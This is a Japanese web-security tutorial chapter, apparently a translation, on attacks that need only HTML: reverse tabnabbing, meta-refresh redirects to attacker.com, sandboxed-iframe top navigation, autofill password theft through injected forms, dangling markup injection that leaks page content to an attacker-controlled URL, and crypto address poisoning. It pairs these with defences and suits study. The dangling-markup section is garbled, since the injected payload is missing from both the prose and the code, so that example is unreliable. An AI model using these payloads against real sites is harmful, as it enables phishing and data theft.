


# HTMLだけで攻撃できる？

DOM clobberingを介してHTMLを使用してJavaScriptに影響を与える場合でも、プロトタイプ汚染を介して攻撃する場合でも、目標は既存のJavaScriptコードを妨害して攻撃を達成することです。CSSインジェクションでさえ、攻撃を実行するにはスタイルを追加する機能が必要であり、すべての状況に適用できるわけではありません。

しかし、HTMLしかなく、JavaScriptやCSSがない場合はどうでしょうか？それでも攻撃を開始できますか？

答えは「はい」です。

ただし、「攻撃」とは必ずしもXSSを意味するわけではないことに注意することが重要です。例えば、データを盗むためのCSSインジェクションも攻撃と見なされます。フィッシングの試みを容易にすることも攻撃です。脆弱性には多くの種類があり、通常、深刻度や影響などに基づいて評価されます。当然のことながら、HTMLのみを使用する攻撃は深刻度が低い場合がありますが、これは正常です。

それでも、興味深いですよね？一見取るに足らない脆弱性も、組み合わせると強力になることがあります。したがって、影響が大きくなくても、注意を払う価値はあります。

最後に、この記事で言及されている攻撃手法の中には、すでにパッチが適用されており、古いブラウザや歴史の中にしか存在しないものもあります。そのようなケースについては特に言及します。

## リバースタブナビング

このコードスニペットの問題点は何でしょうか？

```html
<a href="https://blog.huli.tw" target="_blank">My blog</a>
```

単なるハイパーリンクではないでしょうか？何が問題になるのでしょうか？

現在、このコードに問題はありませんが、2021年頃までは小さな問題がありました。

このリンクをクリックして私のブログにアクセスすると、新しいウィンドウが開きます。私のブログページでは、`window.opener` を使用して元のページにアクセスできます。オリジンが異なるためデータを読み取ることはできませんが、`window.opener.location = 'http://example.com'` を使用して元のページをリダイレクトすることは可能です。

これはどのような影響を与えるのでしょうか？

実例を考えてみましょう。Facebookを閲覧していて、私の投稿にある記事へのリンクを見つけたとします。記事を読んでFacebookのタブに戻ると、ログアウトされており、再度ログインする必要があるというメッセージが表示されます。あなたならどうしますか？

正常に見えるため、再度ログインする人もいると思います。しかし実際には、ログインページはフィッシングサイトです。記事ページが `window.opener.location` を使用してリダイレクトしたものであり、元のFacebookページではありません。ユーザーはアドレスバーからFacebookではないことを明確に確認できますが、重要なのは、ユーザーが記事をクリックした後、元のページが他の場所にリダイレクトされることを予期しないということです。

この種の攻撃はリバースタブナビングと呼ばれ、新しく開いたページを介して元のタブのURLが変更されます。

フロントエンド開発者でESLintをインストールしている場合、ハイパーリンクに `rel="noreferrer noopener"` を追加する必要があるというルールを見たことがあるでしょう。これは、新しく開いたページと元のページを分離し、新しいページに `opener` がないようにすることで、この種の攻撃を防ぐためです。

この動作が[公開](https://mathiasbynens.github.io/rel-noopener/)された後、多くの議論を巻き起こしました。多くの人がこの動作の存在に驚きました。当初の議論はこちらで確認できます：[Windows opened via a target=\_blank should not have an opener by default #4078](https://github.com/whatwg/html/issues/4078)。2019年になって初めて、このPRで仕様がデフォルトの動作を変更し、`target=_blank` が `noopener` を暗黙的に含むようになりました：[Make target=\_blank imply noopener; support opener #4330](https://github.com/whatwg/html/pull/4330)。

[Safari](https://trac.webkit.org/changeset/237144/webkit/)と[Firefox](https://bugzilla.mozilla.org/show_bug.cgi?id=1522083)も追随し、Chromiumは少し遅れましたが、最終的に2020年末に追いつきました：[Issue 898942: Anchor target=\_blank should imply rel=noopener](https://bugs.chromium.org/p/chromium/issues/detail?id=898942)。

したがって、2023年現在、最新バージョンのブラウザを使用している場合、この問題は発生しません。新しいハイパーリンクを開いても、新しいページが `opener` にアクセスできなくなるため、古いページが奇妙な場所にリダイレクトされることはありません。

## metaタグによるリダイレクト

「meta」という言葉の意味の一つは「自己」です。例えば、dataは情報であり、metadataは「データを説明するデータ」です。ウェブページの場合、metaタグも同じ目的を果たし、ウェブページを説明するために使用されます。

最も一般的なmetaタグは次のとおりです。

```html
<meta charset="utf-8" />
<meta name="viewport" content="width=device-width, initial-scale=1" />
<meta name="description" content="HTMLによる攻撃" />
<meta property="og:type" content="website" />
<meta property="og:title" content="HTMLによる攻撃" />
<meta property="og:locale" content="zh_TW" />
```

これらのタグは、ページのエンコーディング、ビューポートのプロパティ、説明、Open Graphのタイトルなどを指定するために使用できます。これがmetaタグの用途です。

これらに加えて、攻撃者が特に関心を持っている属性が1つあります：`http-equiv`。実際、以前CSPをデモンストレーションした際にこの属性を使用しました。CSP以外にも、ウェブページのリダイレクトにも使用できます。

```html
<meta http-equiv="refresh" content="3;url=https://example.com" />
```

上記のHTMLは、3秒後にウェブページをhttps://example.comにリダイレクトします。したがって、このタグは、リダイレクト先のページが自己参照である限り、純粋なHTMLの自動更新によく使用されます。

リダイレクトが可能であるため、攻撃者は `<meta http-equiv="refresh" content="0;url=https://attacker.com" />` タグを使用してユーザーを自身のページにリダイレクトできます。

シナリオはリバースタブナビングに似ていますが、ユーザーが何もクリックする必要がない点が異なります。例えば、HTMLコメントを許可する製品ページを持つeコマースウェブサイトがあるとします。私は、前述の `<meta>` タグを含むコメントを残すことができます。

誰かがこの製品をクリックすると、私の慎重に作成したフィッシングページにリダイレクトされ、誤って正規のページと間違えてクレジットカード情報を入力してしまう可能性が高くなります。

この種の攻撃に対する防御策は、ユーザー入力のmetaタグをフィルタリングすることです。これにより、そのような攻撃を防ぐことができます。

## iframeを使用した攻撃

`<iframe>` タグを使用すると、別のウェブサイトを自身のウェブサイト内に埋め込むことができます。最も一般的な例は、ブログのコメントシステムやYouTube動画の埋め込みです。YouTube動画を共有する際、iframeを含むHTMLを直接コピーできます。

```html
<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/6WZ67f9M3RE"
  title="YouTube video player"
  frameborder="0"
  allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share"
  allowfullscreen
></iframe>
```

ウェブサイトがユーザーにiframeを自分で挿入させることを許可すると、いくつかの問題が発生する可能性があります。例えば、フィッシングページを挿入できるようになります。



これは単なる簡単な例ですが、さらに工夫すれば、CSSを調整してウェブサイト全体のスタイルと一致させることができ、さらに信頼性を高めることができます。少しのミスで、iframe内のコンテンツが元のウェブサイトの一部であると信じてしまう可能性があります。

さらに、iframeは外部のウェブサイトを部分的に操作できます。

リバースタブナビングと同様に、ウェブサイトが他のページの `window` にアクセスできる場合、基本的に `window.location = '...'` を使用してそのウィンドウを別のページにナビゲートできます。

iframeの場合、次のように行うことができます。

```js
// topは最上位ウィンドウを指します
top.location = "https://example.com";
```

ただし、この動作はブラウザによってブロックされ、次のエラーメッセージが表示されます。

> Unsafe attempt to initiate navigation for frame with origin ‘https://attacker.com/‘ from frame with URL ‘https://example.com/‘. The frame attempting navigation is targeting its top-level window, but is neither same-origin with its target nor has it received a user gesture. See https://www.chromestatus.com/features/5851021045661696.

エラーメッセージが示すように、これら2つのウィンドウは同一オリジンではないため、ナビゲーションはブロックされます。ただし、これをバイパスする方法があります。iframeを次のように変更するだけです。

```html
<iframe
  src="https://attacker.com/"
  sandbox="allow-scripts allow-top-navigation"
></iframe>
```

iframeに `sandbox` 属性がある場合、サンドボックスモードに入り、多くの機能が自動的に無効になり、明示的に有効にする必要があります。有効にできる機能は次のとおりです。

1. allow-downloads
2. allow-forms
3. allow-modals
4. allow-orientation-lock
5. allow-pointer-lock
6. allow-popups
7. allow-popups-to-escape-sandbox
8. allow-presentation
9. allow-same-origin
10. allow-scripts
11. allow-top-navigation
12. allow-top-navigation-by-user-activation
13. allow-top-navigation-to-custom-protocols

この場合、`allow-scripts` を有効にすると、iframe内のページがJavaScriptを実行できるようになり、`allow-top-navigation` を有効にすると、最上位ページをリダイレクトできるようになります。

最終的な目標は、前のmetaの例と同じ効果を達成することです。ウェブサイトをフィッシングページにリダイレクトし、フィッシング成功の可能性を高めます。

この脆弱性は[codimd](https://github.com/hackmdio/codimd/issues/1263)と[GitLab](https://ruvlol.medium.com/1000-for-open-redirect-via-unknown-technique-675f5815e38a)で発見されています。後者はこの脆弱性に対して1000ドルの報奨金を提供しました。

防御策としては、ウェブサイトに本来iframeが表示されるべきでない場合は、iframeをフィルタリングするようにしてください。使用する必要がある場合は、ユーザーがsandbox属性を自分で指定できないようにしてください。

iframeに関するより実践的な例と紹介については、以下を参照してください：[XSSの防止はそれほど簡単ではないかもしれません](https://blog.huli.tw/2021/05/25/en/prevent-xss-is-not-that-easy/) および [iframeとwindow.openのダークマジック](https://blog.huli.tw/2022/04/07/en/iframe-and-window-open/)。

## フォームを介して実行される攻撃

ウェブサイトがユーザーに `<form>` 関連の要素を挿入させることを許可するとどうなるでしょうか？

実際、これは前述のiframeの例と似ています。偽のフォームを作成し、それに付随するテキストで、ログアウトされたため再度ログインする必要があることなどをユーザーに伝えることができます。ユーザーがユーザー名とパスワードを入力して「OK」をクリックすると、アカウント情報が攻撃者に送信されます。

しかし、フォームの力はそれだけではありません。実際の例を見てみましょう。

2022年、セキュリティ研究者のGareth Heyes氏がinfosec Mastodonの脆弱性を発見しました。ツイートにHTMLを挿入できますが、CSPが厳格なため、スタイルを挿入したりJavaScriptを実行したりすることはできません。

このような困難な環境で、彼はフォームとChromeの自動入力メカニズムを組み合わせて攻撃を実行しました。多くのブラウザには、パスワードを自動的に記憶して自動入力する機能があります。偽のフォームも例外ではなく、すでに記憶されているユーザー名とパスワードが自動的に入力されます。

ブラウザも賢いです。ユーザー名とパスワードの入力フィールドが意図的に隠されている場合、自動入力されません。しかし、透明度を0に設定するだけでこの制限をバイパスできるため、まだ十分賢くないようです。

しかし、ユーザーにボタンをクリックさせてフォームを送信させるにはどうすればいいでしょうか？

スタイルは使用できませんが、クラスは使用できます！ページ上の既存のクラスを使用して偽のフォームを装飾し、元のインターフェースと似たように見せることができます。これにより、より無害に見え、ユーザーの注意とクリックを引き付けることができます。透明度についても同様の原理が適用され、既存のクラスを利用できます。

最終的な結果は次のようになります。



ボックス内のボタンをクリックするだけで、ユーザー名とパスワードを含むフォームが自動的に送信されます。つまり、ユーザーが一見普通のアイコンをクリックするだけで、アカウントが盗まれてしまうのです！

詳細については、元の記事を参照してください：[Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)

## ダングリングマークアップインジェクション

前述の攻撃に加えて、ダングリングマークアップと呼ばれる別の攻撃方法があります。例を見ると理解しやすいでしょう。

```php
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none'; style-src 'none'; form-action 'none'; frame-src 'none';">

</head>
<body>
  <div>
  Hello, <?php echo $_GET['q']; ?>
  <div>
    Your account balance is: 1337
  </div>
  <footer></footer>
</div>
</body>
</html>
```

この例では、クエリ文字列を介してHTMLをページに注入できます。しかし、問題はCSPが非常に厳格であり、JavaScript、CSS、さらにはiframeも許可しないことです。この場合、ページからデータを盗むにはどうすればいいでしょうか？

`` タグが閉じられておらず、属性が二重引用符で囲まれていないことです。元のHTMLと組み合わせると、次のようになります。

```html
<div>
  Hello, 
    Your account balance is: 1337
  </div>
  <footer></footer>
</div>
</body>
</html>
```

ページ上の元のテキスト `<div>Your account balance...` は `src` の一部になり、別の `"` に遭遇するまで属性を閉じず、`>` に遭遇するまでタグを閉じません。言い換えれば、意図的に閉じられていないタグを使用することで、ページのコンテンツをURLの一部にすることに成功し、それがサーバーに送信されます。この種の攻撃はダングリングマークアップインジェクションと呼ばれます。

この攻撃は、コンテンツセキュリティポリシー（CSP）が厳格で、ページからデータを盗みたい場合に役立ちます。この攻撃手法を試すことができます。ただし、Chromeには組み込みの防御メカニズムがあり、`src` または `href` に `<` または改行が含まれている場合、URLを読み込まないことに注意することが重要です。

したがって、上記のHTMLをChromeで実行すると、リクエストがブロックされることがわかります。ただし、Firefoxには現在同様のメカニズムがなく、喜んでリクエストを送信します。

ただし、注入ポイントが偶然 `<head>` 内にある場合、`<link>` を使用してChromeの制限をバイパスすることもできます。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta
      http-equiv="Content-Security-Policy"
      content="script-src 'none'; style-src 'none'; form-action 'none'; frame-src 'none';"
    />
    <link rel=icon href="http://localhost:5555?q=
  </head>
  <body>
    <div>
      Hello,
      <div>Your account balance is: 1337</div>
      <footer></footer>
    </div>
  </body>
</html>
```

受信されるリクエストは次のようになります。

```
GET /?q=%3C/head%3E%3Cbody%3E%20%20%3Cdiv%3E%20%20Hello,%20%20%20%3Cdiv%3E%20%20%20%20Your%20account%20balance%20is:%201337%20%20%3C/div%3E%20%20%3Cfooter%3E%3Cimg%20src= HTTP/1.1
```

URLデコード後、元のHTMLが表示され、データが正常に盗まれます。

## まとめ

以前に言及した攻撃手法と比較すると、HTMLのみを使用して攻撃するハードルは明らかに高くなります。貴重なデータを盗むという目標を達成するには、ユーザーがリンクやボタンをクリックする必要がある場合があり、慎重に作成されたフィッシングウェブサイトなどと組み合わせる必要がある場合があります。

しかし、それにもかかわらず、これらの方法が依然として影響力を持っていることを認めざるを得ません。そして、ユーザーの習慣を標的とするこの種の攻撃を決して過小評価してはなりません。

例えば、暗号通貨の世界では、他の人のアカウントから別の人物に0単位の通貨を送金できます。例えば、アリスはボブに0単位を送金でき、ピーターはアリスに0単位を送金できます。金額が0単位である限り、好きなように送金できます。そして、取引手数料は操作を開始した人が支払います。

常識的に考えると、他の人の送金を助けるのは奇妙なことですが、誰がそんなことをするでしょうか？ボブとアリスの残高は変わりません。そして、アリスは取引手数料100単位を失います。なぜ彼はそんなことをするのでしょうか？

しかし、ユーザーの通常の送金習慣と組み合わせると、興味深い攻撃手法になります。

ブロックチェーン上のアカウントアドレスは、次のような長い文字列です：`0xa7B4BAC8f0f9692e56750aEFB5f6cB5516E90570`

したがって、インターフェースに表示される場合、長さのために `0xa7B.....0570` のように最初と最後の数文字のみが表示され、中間は `...` で省略される場合があります。アドレスはランダムに生成されるため、同じアドレスを生成することはほぼ不可能ですが、最初と最後の数桁が同じであれば、少し時間をかければ生成できます。

例えば、このアドレスを生成できます：`0xa7Bf48749D2E4aA29e3209879956b9bAa9E90570`

最初と最後の数桁が同じであることに気づきましたか？したがって、このアドレスがインターフェースに表示される場合、`0xa7B....0570` と表示され、前のアドレスと全く同じになります。

そして、多くのユーザーは、頻繁に同じアドレスに送金する場合、便利で速いため、取引履歴から古い取引のアドレスを直接コピーする傾向があります。結局のところ、自分のウォレットを使用しているため、他の人の取引履歴があるはずがありません。

Aが使用している取引所のウォレットアドレスが上記の `0xa7B4BAC8f0f9692e56750aEFB5f6cB5516E90570` であり、インターフェースには `0xa7B....0570` と表示されていると仮定します。私は、前後が同じウォレットアドレスを意図的に作成し、前述の0単位送金を使用して、Aのアカウントからこの偽のアドレスに送金します。

前述のユーザー習慣と組み合わせると、Aは取引履歴からコピー＆ペーストするだけで、私が作成した偽のアドレスにコピーされ、お金はこの偽のウォレットに送金されます。

そして実際、このような習慣を持つ人は少なくなく、世界最大の暗号通貨取引所であるバイナンスでさえ、2023年8月にこの攻撃により6億台湾ドルを騙し取られました。

この事例から、単独で見ると影響力のない小さな問題でも、他の悪用方法と組み合わせると非常に強力になることがわかります。

第3章「JavaScriptを使用しない攻撃」はここで終了です。次の章は「制限を越えて他のウェブサイトを攻撃する」であり、ブラウザがウェブページ間の通信に課すセキュリティ制限と、それをバイパスする方法について探求します。
